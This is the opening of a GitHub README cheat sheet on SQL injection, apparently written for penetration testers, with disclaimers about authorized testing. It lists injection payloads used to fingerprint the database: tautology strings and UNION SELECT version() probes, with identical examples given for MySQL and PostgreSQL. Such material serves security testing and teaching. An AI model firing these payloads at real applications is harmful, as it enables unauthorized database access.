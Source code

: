 # Advanced SQL Injection Techniques

## Here are some Advanced SQL Injection Techniques I commonly use. Happy hunting! :+1:

**Note:** :warning::warning:These advanced techniques should be used responsibly and only in legal and authorized testing scenarios. They go beyond the basics and exploit specific features and configurations of databases. Additionally, I may have unintentionally included openly available techniques from various sources.

**WARNING:** :warning::warning:If you dont know what you are doing, please refrain from using these techniques. Improper use may harm the database. 

> The techniques showed in this repository is intended only for educational purposes and for testing in authorized environments. https://twitter.com/nav1n0x/ and https://github.com/ifconfig-me take no responsibility for the misuse of the techniques listed below. Use it at your own risk. Do not attack the target you don't have permission to engage with.

## Some known/ Unknown Methods to Identify the Database Used by an Application

Identifying the type of database behind a web application can be crucial for crafting specific SQL injection payloads. Though it's difficult to identify the database being used by the application, it is not impossible. Here are some methods you can use to determine the database type:

### 1. Error Message Analysis

Trigger errors to analyze the error messages returned, which often reveal the database type.

#### Example Payloads

- **Generic Error Payload**
  ```sql
  ' OR 1=1 -- 
  ```
  - Check for different error message structures.

- **Syntax Error**
  ```sql
  ' OR 'a'='a
  ```
  - Look for database-specific syntax error messages.

### 2. Database-Specific Functions

Inject payloads that use database-specific functions and observe the behavior.

#### MySQL
```sql
' AND 1=1 UNION SELECT version() --
```

#### PostgreSQL
```sql
' AND 1=1 UNION SELECT version() --
```
